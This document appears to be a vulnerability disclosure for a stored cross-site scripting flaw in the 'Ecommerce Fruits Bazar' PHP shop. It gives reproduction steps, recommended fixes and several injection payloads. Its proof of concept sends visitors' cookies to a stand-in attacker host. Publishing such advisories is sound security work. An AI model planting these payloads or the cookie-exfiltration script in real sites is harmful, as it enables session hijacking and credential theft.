

## Exploit Title: Ecommerce Fruits Bazar – Stored XSS in Product Addition/Viewing (`http://localhost:8000/admin/edit_product.php` → `http://localhost:8000/single_product.php`)

**Date:** 2025-08-25  
**Exploit Author:** Anonymous  
**Vendor Homepage:** https://www.sourcecodester.com  
**Software Link:** https://www.sourcecodester.com/download-code?nid=XXXX&title=Ecommerce+Fruits+Bazar+Master  
**Version:** 1.0  
**Tested on:** PHP 7.4 on Ubuntu 20.04  

---

## Summary

A **Stored Cross-Site Scripting (XSS)** vulnerability exists in the product management system. When an administrator adds a product through `edit_product.php`, malicious JavaScript can be injected into product fields. This payload gets stored in the database and executes when any user views the product via `single_product.php`, affecting all visitors to the product page.

**CWE:** CWE-79 (Improper Neutralization of Input During Web Page Generation)  
**Severity:** High (placeholder — adjust once CVSS is computed)

## Affected Component & Parameter

* **Admin URL:** `http://localhost:8000/admin/edit_product.php`
* **User URL:** `http://localhost:8000/single_product.php`
* **Method:** POST (product addition form)
* **Vulnerable Parameters:** Product name, description, or other product fields

## XSS Type & Example Payloads

**Stored XSS - Persistent across sessions and users**

```html
<script>alert('XSS in Product')</script>
```

```javascript
<script>alert(document.cookie)</script>
```

```html

```

```
" autofocus onfocus=alert(1) x="
```

## Attack Flow

1. **Admin Phase:** Administrator accesses `edit_product.php` and adds a product with malicious payload
2. **Storage Phase:** Malicious script gets stored in the database without proper sanitization
3. **Execution Phase:** Any user visiting `single_product.php` triggers the stored XSS payload

## Rendered XSS Evidence


*Figure 1: Adding malicious product with XSS payload in admin panel*

.png)
*Figure 2: XSS payload execution when viewing the product as a regular user*

## Technical Description

The product input fields in the admin panel do not properly sanitize user input before storing it in the database. When the product is displayed on the user-facing `single_product.php` page, the stored malicious content is rendered without HTML encoding, causing immediate JavaScript execution in any visitor's browser.

## Impact

* **Persistent XSS affecting all users:** Unlike reflected XSS, this vulnerability affects every user who views the compromised product
* **Session hijacking:** Attackers can steal session cookies from any user viewing the product
* **Credential theft:** Malicious scripts can capture user login credentials
* **Privilege escalation:** If admin users view the product, their elevated privileges could be compromised
* **Defacement:** The product page can be modified to display malicious content
* **Malware distribution:** Users can be redirected to malicious sites

## Steps to Reproduce

1. Access the admin panel at `http://localhost:8000/admin/edit_product.php`
2. Add a new product with XSS payload in product name/description field: `<script>alert('XSS')</script>`
3. Save the product
4. Navigate to `http://localhost:8000/single_product.php` (or access the specific product page)
5. Observe the JavaScript payload execution
6. **Note:** Any user accessing this product page will trigger the XSS

## Proof of Concept

```html
<!-- Example malicious product name/description -->
<script>
  // Steal cookies and send to attacker's server
  fetch('http://attacker.com/steal.php?cookie=' + document.cookie);
  
  // Display alert for demonstration
  alert('Your session has been compromised!');
</script>
```

## Recommended Fixes

1. **Input Sanitization:** Implement proper input validation and sanitization on the server-side
2. **Output Encoding:** Apply HTML encoding when displaying user-generated content
3. **Content Security Policy (CSP):** Implement CSP headers to prevent script execution
4. **Input Validation:** Use whitelist-based validation for product fields
5. **Escaping:** Use appropriate escaping functions (e.g., `htmlspecialchars()` in PHP)

## Risk Rating

**CVSS 3.1 Score:** TBD (Likely High due to stored nature and potential for widespread impact)

**Risk Factors:**
- Stored XSS (persistent)
- Affects all users viewing the product
- Can compromise admin sessions
- No authentication required to trigger (public product viewing)